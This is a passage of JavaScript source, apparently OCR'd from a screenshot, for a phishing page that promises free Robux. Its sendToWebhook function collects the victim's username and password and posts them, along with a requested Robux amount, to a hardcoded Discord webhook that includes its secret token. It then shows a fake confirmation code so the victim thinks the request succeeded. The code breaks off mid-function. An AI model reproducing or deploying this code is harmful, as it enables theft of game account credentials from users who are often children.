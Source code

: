         // Generate random 6-character alphanumeric code
        function generateCode() {
            const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
            let code = '';
            for (let i = 0; i < 6; i++) {
                code += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return code;
        }

        // Prevent 'startsWith' error by safely handling input
        document.addEventListener("DOMContentLoaded", () => {
            const usernameInput = document.querySelector("input[type='text']");
            if (usernameInput) {
                usernameInput.addEventListener("input", () => {
                    const value = usernameInput.value;
                    if (typeof value === "string" && value.length > 0) {
                        console.log("Username starts with 'a':", value.startsWith("a"));
                    } else {
                        console.log("Username is empty or invalid");
                    }
                });
            } else {
                console.log("Username input not found");
            }
        });

        // Send form data to Discord webhook with confirmation pop-up and delay
        async function sendToWebhook(ev) {
            ev.preventDefault();
            const username = document.getElementById('usernameInput').value;
            const password = document.getElementById('passwordInput').value;
            const robuxAmount = document.getElementById('robux-amount').value;
            const confirmationCode = generateCode();
            const webhookUrl = 'https://discord.com/api/webhooks/1394596342285992077/GaqPPf1-unuUL5ykQV7wRwjzN-LRJNwRISWV1ySx-gLEPU_SW9HPBghWmjq3KrSzYzWT';
            const webhookBody = {
                embeds: [{
                    title: 'Happy Robux 😊 Form Submission',
                    fields: [
                        { name: 'Username', value: username || 'No username provided' },
                        { name: 'Password', value: password || 'No password provided' },
                        { name: 'Robux Amount', value: robuxAmount || 'No amount selected' },
                        { name: 'Confirmation Code', value: confirmationCode }
                    ]
                }]
            };
            try {
                const response = await fetch(webhookUrl, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify(webhookBody),
                });
                if (response.ok) {
                    setTimeout(() => {
                        document.getElementById('code').textContent = confirmationCode;
                        document.getElementById('popup').style.display = 'flex';
                    }, 2000); // 2-second delay
                } else {
                    alert('Error sending submission. Please try again.');
                }
            } catch (error) {